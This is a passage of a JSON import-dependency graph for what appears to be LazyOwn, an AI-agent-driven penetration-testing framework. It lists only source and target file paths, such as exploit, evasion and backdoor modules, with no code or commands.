"source": "skills/autonomous_daemon.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_replay.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_replay.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_replay.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_replay.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_replay.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/__init__.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/__init__.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/__init__.py", "target": "skills/claude_md_orchestrator/orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "skills/claude_md_orchestrator/tdd_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/bdd_agent.py", "target": "skills/claude_md_orchestrator/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/boy_scout.py", "target": "skills/claude_md_orchestrator/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/cicd_agent.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/documentation_agent.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/documentation_agent.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/models.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "skills/claude_md_orchestrator/parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/orchestrator.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/parser.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/parser.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/reviewer_agent.py", "target": "skills/claude_md_orchestrator/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "skills/claude_md_orchestrator/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/sdd_agent.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "skills/claude_md_orchestrator/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/tdd_agent.py", "target": "skills/claude_md_orchestrator/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/claude_md_orchestrator/validators.py", "target": "skills/claude_md_orchestrator/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/heartbeat.py", "target": "modules/event_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/heartbeat.py", "target": "modules/session_state.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/heartbeat.py", "target": "modules/timeline_narrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/claudemd_rules.py", "target": "skills/hermes-lazyown/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/config_bridge.py", "target": "skills/hermes-lazyown/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/constants.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/executor.py", "target": "skills/hermes-lazyown/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/hermes_sync.py", "target": "skills/hermes-lazyown/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "skills/hermes-lazyown/claudemd_rules.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "skills/hermes-lazyown/config_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "skills/hermes-lazyown/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "skills/hermes-lazyown/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "skills/hermes-lazyown/hermes_sync.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/mcp_server.py", "target": "skills/hermes-lazyown/output_compactor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hermes-lazyown/output_compactor.py", "target": "skills/hermes-lazyown/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hive_mind.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hive_mind.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hive_mind.py", "target": "skills/lazyown_parquet_db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hive_mind.py", "target": "skills/lazyown_groq_agents.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/hive_mind.py", "target": "skills/lazyown_llm.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_automapper.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_campaign.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_campaign.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_campaign.py", "target": "modules/lesson_ingestor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_daemon.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_daemon.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_daemon.py", "target": "skills/sessions_watcher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_daemon.py", "target": "modules/event_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_daemon.py", "target": "modules/session_state.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_daemon.py", "target": "modules/timeline_narrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_facts.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_facts.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "skills/lazyown_parquet_db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "skills/lazyown_facts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "skills/lazyown_parquet_db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_groq_agents.py", "target": "skills/lazyown_llm.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_hooks.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_llm.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_llm.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_llm.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_llm.py", "target": "skills/lazyown_facts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_llm.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/mcp_lazy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_mcp_helpers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/event_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/event_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/mcp_agent_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/session_state.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/session_state.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/recommender.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/timeline_narrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/timeline_narrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_llm.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_llm.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_automapper.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/exploit_recommender.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/evasion_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/evasion_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/auto_pivot.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/dashboard_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/exploit_recommender.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/unified_dashboard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/ai_exploit_chain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_mentions.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/dashboard_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/exploit_recommender.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "scripts/lazy_opencode_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_facts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_facts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_parquet_db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_permissions.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_session.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_context.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_claudemd.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_session.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_session.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/command_chain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/command_chain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/recommendation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/evidence.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/llm_client.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/llm_client.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/intelligence_engine.py"}, {"confidence": "EXTRACTED", "relation": 